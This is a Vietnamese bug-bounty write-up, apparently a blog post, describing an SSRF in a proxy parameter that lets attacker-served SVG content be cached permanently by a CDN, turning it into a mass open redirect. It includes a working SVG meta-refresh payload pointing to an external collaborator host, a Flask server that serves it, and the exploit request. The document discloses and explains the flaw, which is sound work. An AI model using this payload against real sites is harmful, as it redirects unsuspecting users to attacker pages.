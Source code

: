 ```yaml
---
date: 2025-05-04 10:15:00
---
```


# SSRF-induced Cache Poisoning Logic Bug Flaw

![alt text](https://thewindghost.github.io/posts/image-post/cache-poisoning-via-fetching-data/1.jpg)

---
## 1. Lỗ Hổng Server-Side Request Forgery(SSRF) Dẫn Đến Cache Poisoning

Lỗ hổng Server-Side Request Forgery (SSRF) được phát hiện trong tham số `url` với chức năng `Proxy Controller`. Nguyên nhân là do ứng dụng thiếu cơ chế xác thực và ủy quyền hiệu quả, cho phép bất kỳ người dùng nào cũng có thể sử dụng chức năng này.

Kẻ tấn công có thể lợi dụng lỗ hổng bằng cách cung cấp một domain tùy ý `(attacker domain)`, buộc máy chủ phải tương tác với các dịch vụ bên ngoài. Tuy nhiên, lỗ hổng này không thể được khai thác để truy cập các tài nguyên nội bộ của máy chủ (như localhost) do ứng dụng đã có bộ lọc `(filter)`.

![alt text](https://thewindghost.github.io/posts/image-post/cache-poisoning-via-fetching-data/0.jpg)

Vì lý do đó, `Bugcrowd` đã hạ mức độ nghiêm trọng của lỗ hổng xuống `P5 (Informational)`, chỉ mang tính chất thông tin thay vì là một rủi ro bảo mật nghiêm trọng.

![alt text](https://thewindghost.github.io/posts/image-post/cache-poisoning-via-fetching-data/2.png)

---
## 2. Lỗ Hổng Cache Poisoning 

Lỗ hổng Cache Poisoning được phát hiện qua phản hồi của server. Các header như `X-Cache: Hit from CloudFront` và `Age: 5` cùng với `Status 200 OK` cho thấy server đang sử dụng CDN (Content Delivery Network) và nội dung đang được cache.

Ban đầu, khi thử thay đổi `Content-Type` trong header của server độc hại thành `text/html`, server trả về `Status 400 Bad Request` vì không chấp nhận loại nội dung này.

![alt text](https://thewindghost.github.io/posts/image-post/cache-poisoning-via-fetching-data/4.jpg)

Tuy nhiên, khi chuyển sang sử dụng `Content-Type: image/svg+xml`, server đã phản hồi với `Status 200 OK`. Điều này chứng tỏ server chấp nhận và xử lý thành công loại nội dung này, mở ra khả năng khai thác lỗ hổng.

![alt text](https://thewindghost.github.io/posts/image-post/cache-poisoning-via-fetching-data/3.jpg)

Kết quả là, tôi đã tấn công Cache Poisoning thành công.

Tuy nhiên, sau khi nghiên cứu sâu hơn, tôi nhận thấy lỗ hổng này mang tính chất Logic Bug Flaw. Cụ thể, server chỉ cho phép gửi yêu cầu đến một endpoint tối đa 3 lần. Sau 3 lần đó, cache sẽ được lưu lại vĩnh viễn. Khi người dùng khác truy cập vào endpoint này, server sẽ luôn phục vụ nội dung độc hại đã được lưu trong cache từ trước, thay vì xử lý yêu cầu mới. Đây chính là điểm yếu trong logic của ứng dụng.

Lưu ý: Tôi đã sử dụng công cụ [requestrepo.com](https://requestrepo.com/) để chỉnh sửa các header trong quá trình thử nghiệm.
![alt text](https://thewindghost.github.io/posts/image-post/cache-poisoning-via-fetching-data/5.png)

---
## 3. Tác Động và Kịch Bản Tấn Công (Impact & Attack Scenario)

### Tác Động (Impact)

Mặc dù lỗ hổng `Cache Poisoning` cho phép kẻ tấn công chèn nội dung độc hại vào bộ nhớ `cache`, nhưng việc khai thác trực tiếp để thực hiện `XSS Stored` đã bị chặn bởi chính sách bảo mật nội dung `CSP (Content Security Policy)` của hệ thống. Vì vậy, tôi đã chuyển hướng nghiên cứu để tìm một kịch bản tấn công khác khả thi hơn.

![alt text](https://thewindghost.github.io/posts/image-post/cache-poisoning-via-fetching-data/8.png)

Sau khi phân tích, tôi nhận thấy có thể tận dụng khả năng chèn nội dung HTML để gây ra tấn công `Chuyển Hướng Mở (Open Redirect)` bằng cách sử dụng `meta tag`.

### Kịch Bản Tấn Công (Attack Scenario)

Để chứng minh kịch bản này, tôi đã thiết lập một máy chủ độc hại để lưu lại nhật ký truy cập (log).

Tôi đã tạo một file poc.xml trên máy chủ độc hại với nội dung sau:

`poc.xml`
```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<svg xmlns="http://www.w3.org/2000/svg" version="1.1">
  <foreignObject width="100%" height="100%">
    <body xmlns="http://www.w3.org/1999/xhtml">
      <meta http-equiv="refresh" content="0; url=https://wcc9fwntbs9o7upj4haqmnxi0960uqif.oastify.com/" />
    </body>
  </foreignObject>
</svg>
```

File này thực chất là một `SVG (một dạng XML)` có chứa thẻ `<foreignObject>`, cho phép nhúng nội dung HTML. Nhờ `namespace http://www.w3.org/1999/xhtml`, thẻ `<meta http-equiv="refresh">` sẽ được trình duyệt của người dùng xử lý, buộc họ tự động chuyển hướng đến một URL do kẻ tấn công chỉ định.

### Quá trình khai thác:

1. Tôi đã thiết lập máy chủ độc hại bằng Flask để phục vụ file `poc.xml` với `header Content-Type: image/svg+xml`. 
```python
from flask import Flask, make_response
import os

app = Flask(__name__)

@app.route('/poc.xml')
def serve_svg_as_xml():
    file_path = os.path.join(os.getcwd(), 'poc.xml')
    if os.path.exists(file_path):
        with open(file_path, 'rb') as f:
            response = make_response(f.read())
            response.headers.set('Content-Type', 'image/svg+xml')
            return response
    else:
        return "File poc.xml not found!", 404

if __name__ == '__main__':
    app.run(debug=False, host='0.0.0.0', port=5505)
```

2. Sử dụng `Burp Suite Repeater`, tôi lợi dụng lỗ hổng `SSRF` bằng cách cung cấp địa chỉ của máy chủ độc hại `(http://{ip}:{port}/poc.xml) `vào tham số `u`.
```http
GET /media?u=http://Ip-Demo:5505/poc.xml HTTP/2 
Host: VulnWeb-demo.com 
Cookie: None
Sec-Ch-Ua: "Chromium";v="135", "Not-A.Brand";v="8" Sec-Ch-Ua-Mobile: ?0 Sec-Ch-Ua-Platform: "Windows" Accept-Language: en-US,en;q=0.9 
Upgrade-Insecure-Requests: 1 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7 Sec-Fetch-Site: none Sec-Fetch-Mode: navigate Sec-Fetch-User: ?1 
Sec-Fetch-Dest: document 
Accept-Encoding: gzip, deflate, br 
Priority: u=0, i
```

3. Khi server dễ bị tổn thương `(VulnWeb-demo.com)` thực hiện yêu cầu, nó sẽ lấy toàn bộ nội dung từ `file poc.xml` của tôi và lưu vào `cache`.

![alt text](https://thewindghost.github.io/posts/image-post/cache-poisoning-via-fetching-data/6.jpg)

4. Kết quả là, server đã trả về nội dung độc hại từ máy chủ của tôi.

![alt text](https://thewindghost.github.io/posts/image-post/cache-poisoning-via-fetching-data/7.jpg)

## 4. Flow diagram

### Một số lưu ý về lỗ hổng
Lỗ hổng này có thể dẫn đến tấn công Open Redirect, nghe có vẻ low-impact, nhưng vấn đề nằm ở chỗ payload có thể được lưu vĩnh viễn trong cache. Điều này khiến mỗi khi người dùng truy cập vào endpoint đó, họ đều bị chuyển hướng, tạo ra một cuộc tấn công hàng loạt.

![alt text](https://mermaid.ink/img/pako:eNp9kV9PwjAUxb9Kcw1viIx_gz6YwBCMYmLEoHHzoWyXrbFrsXQGJfvudgUMJsY-9d7fOec2tzuIVYJAoVbbcckNJbtIEhKByTDHCKi9JrhihTAR1E_QgmnOlgI3lcZ5KrRS0sz518Ho9dbbg-sIn5CnmdnjpRLJCTa4NYESSu_pWdOdE4HgEv8VYJLijC1RjFj8lmpVSJtPrXLlTgSVsIxkWdZqkUw1W2dk9lA1h-GCx488fyXn55fkJnzA9wI3Zl-OwkCoIplo-_7XSn0VzlF_oCZDY-wk1HvdbXjHBI-5Kjbkd0BlGrlrcLC6nMC1xuG9VttPMkETZ2TMDHNw7OB1GExIwOIMyU-4w9cOT09GzhfTi-e7maNTR4dQh1TzBKjRBdYhR52zqoQ_Ppnpt2pBpfWsmXxRKj_a7CLTDOiKiY2tinXCDI45s_vLf7oaZYI6sCs3QNt-14UA3cEWaN9r9Pp-p9dp-l3fG3gWflpRq9Xo9Hyv3ep3297A98s6fLmpzUbf75bfvnzLWw)

## 5. Link Tham Khảo:

[https://www.w3.org/TR/SVG11/](https://www.w3.org/TR/SVG11/)

[https://www.w3.org/TR/xhtml1/](https://www.w3.org/TR/xhtml1/)

[https://developer.mozilla.org/en-US/docs/Web/SVG/Tutorial/Getting_Started#serving_svg](https://developer.mozilla.org/en-US/docs/Web/SVG/Tutorial/Getting_Started#serving_svg)

[https://portswigger.net/web-security/web-cache-poisoning](https://portswigger.net/web-security/web-cache-poisoning)

[https://owasp.org/www-community/attacks/Server_Side_Request_Forgery](https://owasp.org/www-community/attacks/Server_Side_Request_Forgery)


## 6. Proof-of-Concept (POC) - Video

![](https://thewindghost.github.io/posts/image-post/cache-poisoning-via-fetching-data/video.gif)

